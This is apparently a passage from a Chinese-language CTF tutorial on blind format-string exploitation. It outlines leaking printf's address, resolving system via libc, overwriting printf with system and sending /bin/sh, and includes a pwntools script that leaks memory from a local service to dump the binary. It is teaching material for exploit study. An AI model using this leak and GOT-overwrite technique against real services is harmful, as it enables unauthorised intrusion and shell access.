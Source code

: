 可以基本確定的是 sub\_4004C0 爲 read 函數，因爲讀入函數一共有三個參數的話，基本就是 read 了。此外，下面調用的 sub\_4004B0 應該就是輸出函數了，再之後應該又調用了一個函數，此後又重新跳到讀入函數處，那程序應該是一個 while 1 的循環，一直在執行。

#### 利用思路

分析完上面的之後，我們可以確定如下基本思路

- 泄露 printf 函數的地址，
- 獲取對應 libc 以及 system 函數地址
- 修改 printf 地址爲 system 函數地址
- 讀入 /bin/sh; 以便於獲取 shell

#### 利用程序

程序如下。

```python
##coding=utf8
import math
from pwn import *
from LibcSearcher import LibcSearcher
##context.log_level = 'debug'
context.arch = 'amd64'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 說明有\n，出現新的一行
            if '\x0a' in payload:
                return None
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
            sh.close()
            return data
        except Exception:
            num += 1
            continue
    return None


def getbinary():
    addr = 0x400000
    f = open('binary', 'w')
    while addr < 0x401000:
        data = leak(addr)
        if data is None:
            f.write('\xff')
            addr += 1
        elif len(data) == 0:
            f.write('\x00')
            addr += 1
        else:
            f.write(data)
            addr += len(data)
    f.close()


##getbinary()
```